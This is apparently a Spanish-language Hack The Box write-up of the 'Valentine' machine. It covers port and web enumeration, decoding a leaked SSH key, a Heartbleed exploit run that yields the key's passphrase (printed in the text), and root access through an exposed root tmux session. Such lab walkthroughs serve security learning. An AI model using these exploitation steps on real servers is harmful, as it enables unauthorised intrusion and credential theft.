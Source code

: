 # Valentine-HTB


## NMAP

```
batcat -l ruby Scan
sudo nmap  -sS  -p-  -vvv 10.0.160.83 -oG ports
sudo nmap  -sSCV  -p443,80,22  -vvv 10.0.160.83 -oN Scan
```

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/180caebf-94da-41c4-b46b-c64a0b28daf3)


### Scripts por categoria

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/54c3c833-d66a-4152-b9ec-88cbf7524232)

Esto fue lo que me falto al ver un apache viejo no revise que vulnerabilidades tenian esto lo pongo aqui pero realmente ya se me ocurrio hasta despues.

```
locate *.nse | xargs grep "categories" | grep -oP '".*?"' | sort -u # grep -P de regex Perlpattern -o de only match.
nmap --script "vuln and safe" -p443 10.129.71.228
nmap --script "vuln and safe" -p443 10.129.71.228
nmap --script "vuln and safe" -p80 10.129.71.228
```

Con ayuda del servicio SSH pudimos reconocer la vercion del Ubuntu al que nos enfrentamos "Ubuntu 12.04.5 LTSPrecise"


## WhatWeb

Es importante hacer este check tanto para http como https y en este caso dan lo mismo osea son iguales las respuestas.

```
http://10.129.74.37 [200 OK] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[10.129.74.37], PHP[5.3.10-1ubuntu3.26], X-Powered-By[PHP/5.3.10-1ubuntu3.26]
```

## WFUZZ 

Ya lo que hago es ir armando el comando a mi convenciencia pero es cosa de practica sigue practicando 

```
wfuzz -c --hw=4 --hc 400 -p 127.0.0.1:8080 -X POST -d "FUZZ=eth0" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.0.160.83:1337 # Fuzzed de peticion post paso por proxy.

```

## FFUF

Esta herramienta tienen cosas buenas como la de todas las respuestas seria bueno que le hecharas un ojo

```
ffuf -r -fc 404 -fs 3861 -t 1000  -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.75.0:3000/api/FUZZ # la -r es para segur las redirecciones.
```

## Dirbuster


```
dirbuster -u http://valentine.htb/ -t 100 -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html 
```

## SSH

Entoncontramos varias rutas.Entontramos una key tanto para encode y decode que al parecer solo era un base64 nada complejo


![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/f88dc834-cf44-40eb-9ce9-c1007091fe6d)


![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/8f0e59df-d144-447e-a89a-d0e8c41f847c)

En donde la key luce asi

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/f073ba14-0dd0-4ca6-88f5-7009a9b095e1)

Me di cuenta que esto parece hex decimal vamos a combertirlo en ascii.

```
cat key | sed 's/ \+//g' | xxd -r -p > id_rsa

```

Pero ahora nos damos cuenta que la id_rsa esta protegida con un password


![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/14ae66cb-447a-4992-a30f-bbf4cd4c8427)



## Terminal Shortcuts

```

Terminal 

CTRL + A #Ir al incio
CTRL + E # Ir al final 
ALT + B # Una palabra antes (Before)
ALT + F # Para adelante

Man 

CTRl + Shift #Buscar
n # para buscar adelante
shift + n ( osea N) # para buscar hacia atras
g Ir a la primera linea del manual man

TMUX

CTRL + B Shift + ! # Para un panel convertirlo en una ventana nueva.
CTRL + B Shift + [ # Para copiar se hace
Copy mode CTRL + Space # Selecciona 
CTRL + W # Eso es copia
CTRL + B + SHIFT + ] # pega lo copiado
```






## HeartBleed

5![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/39f7244d-1973-49c3-b9a6-a47c286cfc89)


Nos damos cuenta que es un servidor viejo vulnerable a heartbleed entonces pues probamos el exploit y nos trae una cadena en base64 que es el paass de la key id_rsa. Los permisos de una id_rsa son los 600 que solo propietario pueda leer y escribir.

```
python2 32764.py 10.129.71.228 -p 443 | grep -v "00"

```

Y obtenemos una password "heartbleedbelievethehype" Como adivinamos el usuario tenemos varios caminos 1 enumerar usuario con el explorit pero esto tarda mucho que sea nuestra ultima alternativa 2 de lo que vamos encontrando en la pagina pues ir poniendo palabras por ejemplo hype que dice hype_key podria ser una pista asi como la imagen es una pista podriamos subirla a google para ver que onda.


## RCE

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/478c7967-2a8a-4dde-8152-1de77332c7a1)


Con  la id_rsa ( que esta protegida con pass)


```
## PASS id_rsa

heartbleedbelievethehype
```

No me dejaba conectarme porque esta deprecated. Como no queria limpiar la consola hicimos un export TERM=xterm. 

> Most likely your SSH client is using ssh-rsa (RSA+SHA1) and your server has that signature algorithm disabled. SHA-1 is vulnerable and OpenSSH disabled that signature algorithm in version 8.8 (2021-09-26).

Lo venci asi:

> https://stackoverflow.com/questions/73795935/sign-and-send-pubkey-no-mutual-signature-supported

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/0a5ac691-f393-49d2-819b-d5a10d447595)

Efectivamente es Ubuntu 12 

## Privlege escalation

Se deberia de checar el Kernel de linux a ver si no hay exploit(si hay), los cron jobs,los archivos con SUID, exploits para sudo, los puertos expuestos localmente y los procesos que estan ejecutandose.

![image](https://github.com/gecr07/Valentine-HTB/assets/63270579/2ec995c6-1431-42c5-84b8-e30380419397)

Existia una sesion de tmux que ejecutaba root

```
tmux -S /.devs/dev_sess


```

Ojo esto solo funciona para versiones de tmux muy antiguaas













